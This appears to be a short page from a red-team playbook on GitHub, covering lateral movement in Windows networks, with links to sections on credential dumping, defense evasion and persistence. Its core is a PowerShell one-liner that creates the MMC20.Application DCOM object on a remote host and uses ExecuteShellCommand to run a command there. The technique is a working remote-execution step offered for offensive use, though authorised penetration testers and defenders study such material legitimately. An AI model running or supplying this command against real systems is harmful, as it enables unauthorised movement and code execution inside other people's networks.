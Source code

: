 # 4.4 Lateral Movement

## Table of Contents

- [Lateral Movement via DCOM](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md#Lateral-Movement-via-DCOM)

## Lateral Movement via DCOM

```c
"$a=[System.Activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application.1','<RHOST>'));$a.Document.ActiveView.ExecuteShellCommand('cmd',$null,'/c echo <TEXT> > C:\<FILE>.txt','7')"
```

### Previous

- [4 Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4-Exploitation.md)
- [4.1 Defense Evasion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.1-Defense-Evasion.md)
- [4.2 Credential Dumping](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.2-Credential-Dumping.md)
- [4.3 Privilege Escalation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.3-Privilege-Escalation.md)

### Next

- [5 Installation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5-Installation.md)
- [5.1 Persistence](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md)
- [5.2 Situational Awareness](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md)
